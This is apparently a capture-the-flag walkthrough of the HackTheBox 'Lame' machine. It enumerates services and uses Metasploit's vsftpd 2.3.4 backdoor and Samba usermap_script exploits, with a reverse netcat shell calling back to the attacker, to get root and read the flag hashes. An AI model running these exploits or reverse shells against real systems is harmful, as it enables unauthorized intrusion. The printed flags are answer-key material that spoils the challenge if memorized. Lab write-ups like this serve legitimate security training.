

For the very first box ever to be released on the HackTheBox platform, we'll work through the attack guided by the questions in "Guided Mode".

## Task 1

> How many of the `nmap` top 1000 TCP ports are open on the remote host?

We can answer this question by running the `nmap` port scanner:

```
$ sudo nmap 10.10.10.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-13 13:33 CEST
Nmap scan report for 10.10.10.3
Host is up (0.019s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
```

There are `4` ports open.

## Task 2

> What version of VSFTPd is running on Lame?

```
$ sudo nmap 10.10.10.3 -p 21 -sV

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-13 13:33 CEST
Nmap scan report for 10.10.10.3
Host is up (0.017s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
```

The version of `VSFTPd` running here is `2.3.4`.

## Task 3

> There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

This famous backdoor has the identifier `CVE-2011-2523`. Why is it so famous? This is a backdoor in the source code that starts up a "bind shell" (port start listening for us to connect to and have a shell) when the username during FTP login contains a smiley face `:)`. It is largely unknown how the backdoor got into the source code, who is responsible, and what intent this malicious party had. This vulnerability had a widespread effect and its reach cannot be overstated.

We'll start up Metasploit:

```
$ msfconsole
Metasploit tip: Start commands with a space to avoid saving them to history

                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
                            /  ,' `-._<.===-'
                           /  /
                          /  ;
              _          /   ;
 (`._    _.-"" ""--..__,'    |
 <_  `-""                     \
  <`-                          :
   (__   <__.                  ;
     `-.   '-.__.      _.'    /
        \      `-.__,-'    _,'
         `._    ,    /__,-'
            ""._\__,'< <____
                 | |  `----.`.
                 | |        \ `.
                 ; |___      \-``
                 \   --<
                  `.`.<
                    `-'


       =[ metasploit v6.4.64-dev                          ]
+ -- --=[ 2519 exploits - 1296 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

Then we can search for vulnerabilities affecting `vsftpd@2.3.4`:

```
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

We should set the remote host and then run the module:

```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                       ng-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

As you can see the exploit module does not work for the Lame machine. The answer to the question is thus `no`.

## Task 4

> What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".

If we try to discover the version with `nmap`, we'll run into it not giving us the full version number:

```
$ sudo nmap 10.10.10.3 -p 445 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-13 13:39 CEST
Nmap scan report for 10.10.10.3
Host is up (0.020s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.26 seconds
```

Instead, we can use `smbmap`:

```
$ smbmap -H 10.10.10.3

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                                                       [*] Detected 1 hosts serving SMB
[|] Authenticating...                                                                                [/] Authenticating...                                                                                [*] Established 1 SMB connections(s) and 1 authenticated session(s)
[-] Enumerating shares...                                                                            [+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
[/] Closing connections..                                                                            [-] Closing connections..                                                                            [*] Closed 1 connections
```

The exact version is `3.0.20`.

## Task 5

> What 2007 CVE allows for remote code execution in this version of Samba via shell metacharacters involving the `SamrChangePassword` function when the "username map script" option is enabled in `smb.conf`?

We can find the answer on [www.exploit-db.com](https://www.exploit-db.com/exploits/16320):



The CVE identifier is `CVE-2007-2447`.

## Task 6

> Exploiting CVE-2007-2447 returns a shell as which user?

Time to run the exploit using, again, Metasploit:

```
msf6 > search cve-2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
```

Again, we'll modify the options to point at the right target:

```

msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                       ng-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.102.163  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3

RHOSTS => 10.10.10.3
```

But now we also need to modify `LHOST`: the IP address for the reverse shell to connect to. That should be our machine, so we'll specify `tun0` (since we are connected over VPN to HackTheBox network), which will automatically resolve to, in my case, `10.10.14.3`:

```
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => 10.10.14.4
```

Now we are ready to run the exploit:

```

msf6 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP handler on 10.10.14.4:4444
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:54240) at 2025-06-13 13:48:38 +0200


```

Nothing seems to be happening, but in fact, our reverse shell is ready to rock!

```
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:47299) at 2025-06-13 13:54:17 +0200

id
uid=0(root) gid=0(root)
```

We are definitely rocking, and we are the `root` user! That answers task #6. We can "upgrade" this shell to one with a prompt by using Python to spawn Bash:

```
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:47299) at 2025-06-13 13:54:17 +0200

id
uid=0(root) gid=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/#
```

## Grabbing our flags

Straightforward, but let's collect what we worked so hard for:

```
root@lame:/# ls /home
ftp makis service user

root@lame:/# cd /home/makis

root@lame:/home/makis# ls
user.txt

root@lame:/home/makis# cat user.txt
66dbc46af4632be3690785122719dfdd

root@lame:/home/makis# cat /root/root.txt
5296ea54e19165d0e8a25495153cca97
```

## Task 9

> We'll explore a bit beyond just getting a root shell on the box. While the official writeup doesn't cover this, you can look at [0xdf's write-up](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd) for more details. With a root shell, we can look at why the VSFTPd exploit failed. Our initial `nmap` scan showed four open TCP ports. Running `netstat -tnlp` shows many more ports listening, including ones on 0.0.0.0 and the boxes external IP, so they should be accessible. What must be blocking connection to these ports?

```
root@lame:/home/makis# netstat -tnlp
netstat -tnlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      5436/xinetd
tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      5436/xinetd
tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      5436/xinetd
tcp        0      0 0.0.0.0:33319           0.0.0.0:*               LISTEN      5333/rpc.mountd
tcp        0      0 0.0.0.0:53352           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8009            0.0.0.0:*               LISTEN      5541/jsvc
tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN      5603/unrealircd
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      5157/mysqld
tcp        0      0 0.0.0.0:1099            0.0.0.0:*               LISTEN      5582/rmiregistry
tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      5603/unrealircd
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      5411/smbd
tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN      5601/Xtightvnc
tcp        0      0 0.0.0.0:53612           0.0.0.0:*               LISTEN      4629/rpc.statd
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      4611/portmap
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      5601/Xtightvnc
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      5561/apache2
tcp        0      0 0.0.0.0:55122           0.0.0.0:*               LISTEN      5582/rmiregistry
tcp        0      0 0.0.0.0:8787            0.0.0.0:*               LISTEN      5586/ruby
tcp        0      0 0.0.0.0:8180            0.0.0.0:*               LISTEN      5541/jsvc
tcp        0      0 0.0.0.0:1524            0.0.0.0:*               LISTEN      5436/xinetd
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      5436/xinetd
tcp        0      0 10.10.10.3:53           0.0.0.0:*               LISTEN      5009/named
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      5009/named
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      5436/xinetd
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      5238/postgres
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      5401/master
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      5009/named
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      5411/smbd
tcp6       0      0 :::2121                 :::*                    LISTEN      5479/proftpd: (acce
tcp6       0      0 :::3632                 :::*                    LISTEN      5265/distccd
tcp6       0      0 :::53                   :::*                    LISTEN      5009/named
tcp6       0      0 :::22                   :::*                    LISTEN      5033/sshd
tcp6       0      0 :::5432                 :::*                    LISTEN      5238/postgres
tcp6       0      0 ::1:953                 :::*                    LISTEN      5009/named
```

A lot of services are listening externally (`0.0.0.0`) and not just on `localhost` (`127.0.0.1`). This means a `firewall` must be blocking these ports.

## Task 10

> When the VSFTPd backdoor is trigger, what port starts listening?

We trigger the exploit again from our attack box (any username with `:)` causes a backdoor to open. [This backdoor supposedly opens on port `6200`](https://armaan0957.medium.com/metasploitable2-the-ftp-massacre-part-2-vsftpd-2-3-4-backdoor-anonymous-access-f9eb3e052a15).

## Task 11

> When the VSFTPd backdoor is triggered, does port 6200 start listening on Lame?

```
$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): lol:)
331 Please specify the password.
Password:
```

Then, on the reverse shell, I'll run `netstat -tlnp` again and discover one more
port is listening:

```
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      5953/vsftpd
```

Then, we can use the backdoor (from the inside, because of the firewall), to confirm the exploit does actually work:

```
root@lame:/home/makis# nc 127.0.0.1 6200

id
uid=0(root) gid=0(root)
```

So, `yes` it does work!
